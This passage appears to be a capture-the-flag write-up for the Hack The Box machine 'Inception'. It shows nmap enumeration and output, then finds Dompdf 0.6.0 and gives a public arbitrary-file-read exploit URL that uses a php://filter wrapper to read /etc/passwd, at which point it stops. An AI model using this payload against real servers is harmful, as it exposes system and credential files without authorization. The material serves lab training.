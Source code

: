 # Inception

This is the write-up for the box Inception that got retired at the 14th April 2018.
My IP address was 10.10.14.14 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.67    inception.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/inception.nmap 10.10.10.67
```

```markdown
PORT     STATE SERVICE    VERSION
80/tcp   open  http       Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Inception
3128/tcp open  http-proxy Squid http proxy 3.5.12
|_http-server-header: squid/3.5.12
|_http-title: ERROR: The requested URL could not be retrieved
```

## Checking HTTP (Port 80)

On the web page is one input field where it is possible to "Sign Up" with an email address. After a submit, it only displays "Thank you" back to us without sending any request to anywhere. In the HTML source code there is one comment at the bottom of the file:
```markdown
\<!-- Todo: test dompdf on php 7.x -->
```

This looks like a hint that [Dompdf](https://github.com/dompdf/dompdf) is installed on the web server and this can be confirmed by browsing to the path _/dompdf_ and see the configuration files. The _VERSION_ file reveals that it is **Dompdf 0.6.0**.

Lets look for vulnerabilities with **Searchsploit**:
```markdown
searchsploit dompdf
```

There is one called _"dompdf 0.6.0 - 'dompdf.php?read' Arbitrary File Read"_ which is an arbitrary file read vulnerability. The PoC tells the following:
```markdown
http://example/dompdf.php?input_file=php://filter/read=convert.base64-encode/resource=<PATH_TO_THE_FILE>
```

So lets try this to read _/ect/passwd_:
```markdown
http://10.10.10.67/dompdf/dompdf.php?input_file=php://filter/read=convert.base64-encode/resource=/etc/passwd
```

